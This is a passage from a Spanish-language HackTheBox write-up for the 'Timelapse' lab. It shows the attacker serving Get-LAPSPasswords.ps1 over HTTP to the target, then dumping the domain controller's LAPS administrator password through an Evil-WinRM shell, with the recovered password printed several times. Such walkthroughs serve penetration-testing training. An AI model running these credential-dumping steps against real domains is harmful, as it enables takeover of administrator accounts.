 ```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.141.32 - - [26/Jul/2023 14:02:29] "GET /Get-LAPSPasswords.ps1 HTTP/1.1" 200 -
```

- Ahora dumpeamos todas las credenciales.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords


Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 09{z4]5BiSl,e$1d9!+t8GT#
Expiration : 7/31/2023 7:01:37 PM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 09{z4]5BiSl,e$1d9!+t8GT#
Expiration : 7/31/2023 7:01:37 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 09{z4]5BiSl,e$1d9!+t8GT#
Expiration : 7/31/2023 7:01:37 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 09{z4]5BiSl,e$1d9!+t8GT#
Expiration : 7/31/2023 7:01:37 PM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA
```